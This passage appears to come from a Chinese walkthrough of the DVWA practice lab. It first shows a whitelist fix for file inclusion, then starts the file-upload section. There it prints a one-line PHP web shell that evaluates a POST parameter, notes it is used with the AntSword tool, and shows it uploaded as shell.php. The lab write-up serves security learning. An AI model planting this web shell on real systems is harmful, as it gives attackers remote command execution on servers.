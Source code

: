 也是可以访问到的



### Security Impossible

安全的做法就是限制用户能够访问的资源，就是设立白名单，规定哪些资源用户可以进行访问

```php
<?php
$file = $_GET[ 'page' ];
$configFileNames = [
    'include.php',
    'file1.php',
    'file2.php',
    'file3.php',
];
if( !in_array($file, $configFileNames) ) {
    echo "ERROR: File not found!";
    exit;
}
?>
```

这样用户只能访问这四个文件，而不能访问其他文件或者远程包含。



## File Upload

文件上传，要配合蚁剑等工具使用比较方便。

### Security Low

直接一句话木马，写成一个文件进行上传。

```
<?php @eval($_POST['cmd'])?>
```



显示：

```
../../hackable/uploads/shell.php succesfully uploaded!
```

